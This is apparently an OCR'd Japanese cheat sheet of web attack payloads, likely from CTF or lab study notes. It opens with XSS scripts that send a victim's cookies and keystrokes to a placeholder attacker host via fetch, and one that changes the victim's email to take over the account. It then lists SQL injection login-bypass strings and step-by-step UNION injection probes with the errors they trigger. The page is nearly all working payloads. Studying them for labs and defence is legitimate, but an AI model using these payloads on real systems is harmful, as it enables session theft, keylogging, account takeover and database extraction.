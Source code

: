 ```
# セッションハイジャック
<script>fetch('https://<Attacker IP>?cookie=' + btoa(document.cookie) );</script>

# キーロガー
<script>document.onkeypress = function(e) { fetch('https://<Attacker IP>?key=' + btoa(e.key) );}</script>

# メールアドレスの変更によるパスワードリセット攻撃
<script>user.changeEmail('attacker@hacker.thm');</script>
```
### ^SQLインジェクション
・後ろのスペースを入れて使用
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or ('1'='1--
```
#### UNION Injection
コメントアウトには「-- 」or「#」を使用する。  
1.UNION攻撃に必要な列数の決定
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# 実際の列数を超えると以下のエラーが返される
The ORDER BY position number 3 is out of range of the number of items in the select list.
```
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

# nullの数が列の数と一致しない場合、以下のエラーが返される
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

2.UNION攻撃で有用なデータ型の列を見つける
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

# 型が一致しない場合、以下のエラーが返される
　エラーが返されない場合、その列で文字列が取得可能なことが分かる
Conversion failed when converting the varchar value 'a' to data type int.
```

